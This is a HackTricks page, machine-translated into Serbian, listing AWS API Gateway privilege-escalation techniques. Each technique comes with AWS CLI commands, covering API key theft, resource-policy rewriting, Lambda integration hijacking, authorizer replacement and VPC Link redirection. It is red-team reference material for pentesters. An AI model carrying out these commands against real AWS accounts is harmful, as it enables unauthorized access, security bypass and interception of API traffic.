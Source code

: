 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Za više informacija proverite:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Sa ovom dozvolom možete generisati API ključeve za API-jeve koji su konfigurisani (po regionu).
```bash
aws --region <region> apigateway create-api-key
```
**Potencijalni Uticaj:** Ne možete privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:GET`

Sa ovom dozvolom možete dobiti generisane API ključeve API-ja koji su konfigurisani (po regionu).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencijalni Uticaj:** Ne možete privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Sa ovim dozvolama moguće je izmeniti politiku resursa API-ja kako biste sebi omogućili pristup pozivanju i zloupotrebi potencijalnog pristupa koji API gateway može imati (poput pozivanja ranjivog lambda). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencijalni uticaj:** Obično nećete moći direktno da privesc sa ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolama `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` može **dodati novu integraciju postojećem API Gateway REST API-ju sa Lambda funkcijom koja ima pridruženu IAM ulogu**. Napadač može zatim **pokrenuti Lambda funkciju da izvrši proizvoljan kod i potencijalno dobije pristup resursima povezanim sa IAM ulogom**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Pristup resursima povezanim sa IAM ulogom Lambda funkcije.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolama `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` može **modifikovati postojeći API Gateway autorizator** kako bi zaobišao bezbednosne provere ili izvršio proizvoljan kod kada se izvrše API zahtevi.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Obilaženje bezbednosnih provera, neovlašćen pristup API resursima.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolom `apigateway:UpdateVpcLink` može **modifikovati postojeći VPC Link da usmeri na drugi Network Load Balancer, potencijalno preusmeravajući privatni API saobraćaj na neovlašćene ili zlonamerne resurse**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencijalni uticaj**: Neovlašćen pristup privatnim API resursima, presretanje ili ometanje API saobraćaja.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
